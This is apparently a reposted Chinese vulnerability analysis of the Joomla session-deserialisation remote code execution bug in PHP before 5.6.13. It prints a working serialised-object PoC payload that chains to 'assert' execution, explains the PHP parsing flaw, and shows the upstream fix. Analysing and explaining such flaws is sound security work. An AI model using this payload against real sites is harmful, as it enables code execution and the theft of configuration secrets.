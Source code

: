 > 原文链接: https://www.anquanke.com//post/id/83120 


# session反序列化代码执行漏洞分析[Joomla RCE]


                                阅读量   
                                **271633**
                            
                        |
                        
                                                                                    



**[![](https://p5.ssl.qhimg.com/t01ea73f230e3dd0b34.png)](https://p5.ssl.qhimg.com/t01ea73f230e3dd0b34.png)**

**Author：L.N.@360adlab**



**0x01 漏洞影响版本**

PHP &lt; 5.6.13

**0x02 joomla利用程序分析**

joomla具体漏洞分析请看[phith0n牛分析文章](http://drops.wooyun.org/papers/11330)，本文只讨论此漏洞的核心问题所在。

**利用程序poc：**

```
`}`__test|O:21:"JDatabaseDriverMysqli":3:`{`s:2:"fc";O:17:"JSimplepieFactory":0:`{``}`s:21:"disconnectHandlers";a:1:`{`i:0;a:2:`{`i:0;O:9:"SimplePie":5:`{`s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:`{``}`s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:`{``}``}`i:1;s:4:"init";`}``}`s:13:"connection";b:1;`}`ð���
```



注意poc中的ð���截断字符，此处是关键，当我们把此poc注入到数据库以后所形成的数据为：



```
__default|a:8:`{`s:15:"session.counter";i:1;s:19:"session.timer.start";i:1450174018;s:18:"session.timer.last";i:1450174018;s:17:"session.timer.now";i:1450174018;s:22:"session.client.browser";s:412:"`}`__test|O:21:"JDatabaseDriverMysqli":3:`{`s:2:"fc";O:17:"JSimplepieFactory":0:`{``}`s:21:"disconnectHandlers";a:1:`{`i:0;a:2:`{`i:0;O:9:"SimplePie":5:`{`s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:`{``}`s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:`{``}``}`i:1;s:4:"init";`}``}`s:13:"connection";b:1;`}`
```

此时截断字符消失。

<br>

通过分析php底层实现代码：

[https://github.com/php/php-src/blob/PHP-5.4.5/ext/session/session.c](https://github.com/php/php-src/blob/PHP-5.4.5/ext/session/session.c)



```
#define PS_DELIMITER '|'
#define PS_UNDEF_MARKER '!'
PS_SERIALIZER_DECODE_FUNC(php) /* `{``{``{` */
`{`
const char *p, *q;
char *name;
const char *endptr = val + vallen;
zval *current;
int namelen;
int has_value;
php_unserialize_data_t var_hash;
PHP_VAR_UNSERIALIZE_INIT(var_hash);
p = val;
while (p &lt; endptr) `{`
zval **tmp;
q = p;
while (*q != PS_DELIMITER) `{`
if (++q &gt;= endptr) goto break_outer_loop;
`}`
if (p[0] == PS_UNDEF_MARKER) `{`
p++;
has_value = 0;
`}` else `{`
has_value = 1;
`}`
namelen = q - p;
name = estrndup(p, namelen);
q++;
if (zend_hash_find(&amp;EG(symbol_table), name, namelen + 1, (void **) &amp;tmp) == SUCCESS) `{`
if ((Z_TYPE_PP(tmp) == IS_ARRAY &amp;&amp; Z_ARRVAL_PP(tmp) == &amp;EG(symbol_table)) || *tmp == PS(http_session_vars)) `{`
goto skip;
`}`
`}`
if (has_value) `{`
ALLOC_INIT_ZVAL(current);
if (php_var_unserialize(&amp;current, (const unsigned char **) &amp;q, (const unsigned char *) endptr, &amp;var_hash TSRMLS_CC)) `{`
php_set_session_var(name, namelen, current, &amp;var_hash  TSRMLS_CC);
`}`
zval_ptr_dtor(&amp;current);
`}`
PS_ADD_VARL(name, namelen);
skip:
efree(name);
p = q;
`}`
break_outer_loop:
PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
return SUCCESS;
`}`
```



代码中通过指针移动判断"|"的位置，获取"|"前面部分为session键名，然后通过php_var_unserialize函数反序列化"|"后面部门，如果解析成功则把值写入session，如果解析失败则销毁当变量，然后继续移动指针判断"|",如果"|"存在，继续把"|"前数据作为变量，解析"|"后面的值。

结合joomla漏洞：



```
__default|a:8:`{`s:15:"session.counter";i:1;s:19:"session.timer.start";i:1450174018;s:18:"session.timer.last";i:1450174018;s:17:"session.timer.now";i:1450174018;s:22:"session.client.browser"
;s:412:"`}`__test|O:21:"JDatabaseDriverMysqli":3:`{`s:2:"fc";O:17:"JSimplepieFactory":0:`{``}`s:21:"disconnectHandlers";a:1:`{`i:0;a:2:`{`i:0;O:9:"SimplePie":5:`{`s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:`{``}`s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:`{``}``}`i:1;s:4:"init";`}``}`s:13:"connection";b:1;`}`
```



当php解析此段数据的时候，首先获取到"|"前面的数据"__default"为session的键名，然后"|"后面的数据进入反序列化流程php_var_unserialize，反序列化流程的底层关键代码如下：

[https://github.com/php/php-src/blob/PHP-5.4.5/ext/standard/var_unserializer.c](https://github.com/php/php-src/blob/PHP-5.4.5/ext/standard/var_unserializer.c)



```
size_t len, maxlen;
char *str;
len = parse_uiv(start + 2);
maxlen = max - YYCURSOR;
if (maxlen &lt; len) `{`
*p = start + 2;
return 0;
`}`
```



指针依次移动反序列化数据，当解析到如下数据的时候：

······s:412:"`}`__test|O:21:"JData······

数据经过上面关键代码：

len = parse_uiv(start + 2);通过parase_uiv获取412这个值给len；

maxlen = max – YYCURSOR;获取当前指针以后数据的长度，YYCURSOR当前指针指向`}`，即获取的是`}`_test……的数据长度为408

少了4个字符，这少的4个字符为我们的截断字符。

这样，此时if判断成功，进入内部语句，使得反序列化失败返回0，而我们的指针p指向"4".



```
if (maxlen &lt; len) `{`
*p = start + 2;
return 0;
`}`
php_var_unserialize返回0，
if (php_var_unserialize(&amp;current, (const unsigned char **) &amp;q, (const unsigned char *) endptr, &amp;var_hash TSRMLS_CC)) `{`
php_set_session_var(name, namelen, current, &amp;var_hash  TSRMLS_CC);
`}`
zval_ptr_dtor(&amp;current);
efree(name);
p = q;
```



注销当前变量，p = q;进入下一个循环，继续寻找"|",由于我们的p目前指向的是"4",所以session键名为412:"`}`__test，"|"后面数据正常反序列化，

最后经过session反序列化joomla的poc后代码执行：



```
'412:"`}`__test' =&gt;object(JDatabaseDriverMysqli)[30]
      public 'name' =&gt; string 'mysqli' (length=6)protected 'nameQuote' =&gt; string '`' (length=1)protected 'nullDate' =&gt; string '0000-00-00 00:00:00' (length=19)private '_database' (JDatabaseDriver) =&gt; nullprotected 'connection' =&gt; boolean trueprotected 'count' =&gt; int 0protected 'cursor' =&gt; nullprotected 'debug' =&gt; boolean falseprotected 'limit' =&gt; int 0protected 'log' =&gt;array (size=0)emptyprotected 'timings' =&gt;array (size=0)emptyprotected 'callStacks' =&gt;array (size=0)emptyprotected 'offset' =&gt; int 0protected 'options' =&gt; nullprotected 'sql' =&gt; nullprotected 'tablePrefix' =&gt; nullprotected 'utf' =&gt; boolean trueprotected 'errorNum' =&gt; int 0protected 'errorMsg' =&gt; nullprotected 'transactionDepth' =&gt; int 0protected 'disconnectHandlers' =&gt;array (size=1)
          0 =&gt;array (size=2)
              ...
      public 'fc' =&gt;object(JSimplepieFactory)[31]
```



**0x03 php&gt;=5.6.13版本修复**

在php&gt;=5.6.13版本中修复此问题，5.6.13版本以前是第一个变量解析错误注销第一个变量，然后解析第二个变量，但是5.6.13以后如果第一个变量错误，直接销毁整个session。

[https://github.com/php/php-src/blob/PHP-5.6.13/ext/session/session.c](https://github.com/php/php-src/blob/PHP-5.6.13/ext/session/session.c)



```
ALLOC_INIT_ZVAL(current);
if (php_var_unserialize(&amp;current, (const unsigned char **) &amp;q, (const unsigned char *) endptr, &amp;var_hash TSRMLS_CC)) `{`
php_set_session_var(name, namelen, current, &amp;var_hash  TSRMLS_CC);
`}` else `{`
var_push_dtor_no_addref(&amp;var_hash, &amp;current);
efree(name);
PHP_VAR_UNSERIALIZE_DESTROY(var_hash);
return FAILURE;
`}`
var_push_dtor_no_addref(&amp;var_hash, &amp;current);
```



感谢@ryat师傅的指导。

<br>



**另一篇技术分析:**

**[http://bobao.360.cn/learning/detail/2500.html](http://bobao.360.cn/learning/detail/2500.html)**


